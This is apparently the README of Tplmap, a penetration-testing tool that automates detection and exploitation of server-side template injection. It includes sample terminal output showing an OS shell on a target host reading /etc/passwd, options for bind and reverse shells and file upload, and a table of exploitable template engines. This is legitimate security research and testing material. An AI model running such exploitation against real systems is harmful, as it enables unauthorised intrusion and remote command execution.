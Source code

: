 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'inj' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Freemarker plugin is testing rendering with tag '${*}'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin is testing blind injection
[+] Nunjucks plugin has confirmed blind injection
[+] Tplmap identified the following injection point:

  GET parameter: id
  Engine: Nunjucks
  Injection: blind
  Context: text
  OS: undetected
  Technique: blind
  Capabilities:

   Shell command execution: yes (blind)
   Bind and reverse shell: yes
   File write: yes (blind)
   File read: no
   Code evaluation: no

[+] Rerun tplmap providing one of the following options:

    --os-shell			Run shell on the target
    --os-cmd			Execute shell commands
    --bind-shell PORT		Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
                          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell

[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Python (generic)     |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| doT                  |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Marko                |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| PHP (generic)        |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
